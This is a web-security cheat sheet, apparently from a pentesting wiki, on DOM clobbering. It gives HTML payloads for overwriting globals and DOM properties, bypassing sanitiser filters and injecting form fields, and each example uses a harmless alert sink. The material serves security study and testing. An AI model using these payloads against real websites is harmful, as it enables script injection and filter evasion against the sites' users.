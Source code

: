# Dom Clobbering
DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Basic
It's possible to generate global variables inside the JS context with the attributes `id` and `name` in HTML tags.
```javascript
<form id=x></form>
<script> console.log(typeof document.x) //[object HTMLFormElement] </script>
```

**Only** certain elements can use the name attribute to **clobber globals**, they are:
* `embed`
* `form`
* `iframe`
* `image`
* `img`
* `object`



## Exploit
Exploitation requires any kind of HTML injection in the page.

* Clobbering `x.y.value`
```javascript
// Payload
<form id=x><output id=y>I've been clobbered</output>

// Sink
<script>alert(x.y.value);</script>
```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
```javascript
// Payload
<a id=x><a id=x name=y href="Clobbered">

// Sink
<script>alert(x.y)</script>
```
* Clobbering `x.y.z` - 3 levels deep
```javascript
// Payload
<form id=x name=y><input id=z></form>
<form id=x></form>

// Sink
<script>alert(x.y.z)</script>
```

* Clobbering `a.b.c.d` - more than 3 levels
```javascript
// Payload
<iframe name=a srcdoc="
<iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
<style>@import '//portswigger.net';</style>

// Sink
<script>alert(a.b.c.d)</script>
```

* Clobbering forEach (Chrome only)
```javascipt
// Payload
<form id=x>
<input id=y name=z>
<input id=y>
</form>

// Sink
<script>x.y.forEach(element=>alert(element))</script>
```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same id attribute
```javascript
// Payloads
<html id="cdnDomain">clobbered</html>
<svg><body id=cdnDomain>clobbered</body></svg>


// Sink 
<script>
alert(document.getElementById('cdnDomain').innerText);//clobbbered
</script>
```

* Clobbering `x.username`
```javascript
// Payload
<a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

// Sink
<script>
alert(x.username)//Clobbered-username
alert(x.password)//Clobbered-password
</script>
```

* Clobbering (Firefox only)
```javascript
// Payload
<base href=a:abc><a id=x href="Firefox<>">

// Sink
<script>
alert(x)//Firefox<>
</script>
```

* Clobbering (Chrome only)
```javascript
// Payload
<base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

// Sink
<script>
alert(x.xyz)//a://Clobbered<>
</script>
```

## Filter Bypassing
If a filter is looping through the properties of a node using something like `document.getElementByID('x').attributes` you could clobber the attribute `.attributes` and break the filter. Other DOM properties like `tagName`, `nodeName` or `parentNode` and more are also clobberable.
```javascript
<form id=x></form>
<form id=y>
<input name=nodeName>
</form>
<script>
console.log(document.getElementById('x').nodeName)//FORM
console.log(document.getElementById('y').nodeName)//[object HTMLInputElement]
</script>
```

## Clobbering Forms
It's possible to add new entries inside a form just by specifying the `form` attribute inside some tags. You can use this to add new values inside a form and to even add a new button to send it (clickjacking or abusing some `.click()` JS code):
```javascript
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
* For more form attributes in [W3S](https://www.w3schools.com/tags/tag_button.asp)

## Tools
* [**DOM Invader**](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/enabling) is preinstalled in Burp's browser, but is disabled by default as some of its features may interfere with your other testing activities.

















































































